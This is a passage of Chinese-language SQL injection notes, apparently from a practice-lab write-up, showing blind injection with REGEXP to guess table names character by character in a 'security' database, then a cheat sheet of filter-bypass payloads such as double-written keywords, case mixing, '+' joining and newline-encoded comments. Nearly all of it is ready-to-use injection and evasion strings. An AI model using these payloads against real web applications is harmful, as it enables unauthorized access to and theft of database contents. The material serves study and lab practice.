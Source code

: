 4. 表达式的更换如下
```sql
expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE
```

这时说明表名为 news ，要验证是否是该表名 正则表达式为 `'^news$'`，但是没这必要 直接判断 table_name = 'news' 即可。

5. 接下来猜解其它表了

regexp 匹配的时候会在所有的项都进行匹配。例如：security 数据库的表有多个，users，email 等
```sql
select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);     -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);    -- 不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);    -- 不正确
```

实验表名：在 limit 0,1 下，regexp 会匹配所有的项。我们在使用 regexp 时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而 limit 0,1 对于 where table_schema='security' limit 0,1 来说 table_schema='security' 已经起到了限定作用了，limit 有没有已经不重要了。

### bypass 技巧

**常见的绕过技巧**

```
# 双写
❌ select
✔ seselectlect

# 大小写
❌ select
✔ SElect

# 负数
❌ ?id=1 ANd 1=1
✔ ?id=1 ANd -1=-1

# 小数点
❌ WHERE id= '1'
✔ WHERE id= '1.0test'

# +号连接绕过
❌ ?id=1 ANd 1=1
✔ ?id=1+and+1=1
✔ ?id=1+union+select+1+2

# 无闭合
❌ ?id=1 and 1=1
✔ ?id=1 --+/*%0aand 1=1 --+*/

# 有闭合
❌ ?id=1 and 1=1
✔ ?id=1 --+/*%0a'and 1=1 --+ --+*/
✔ ?id=1 --+/*%0aand 1=1 --+*/
✔ ?id=1 --+/*%0a'and 1=1 --+ --+*

# %09、%0a、%0b、%0c、%0d、%a0 替换 %20
```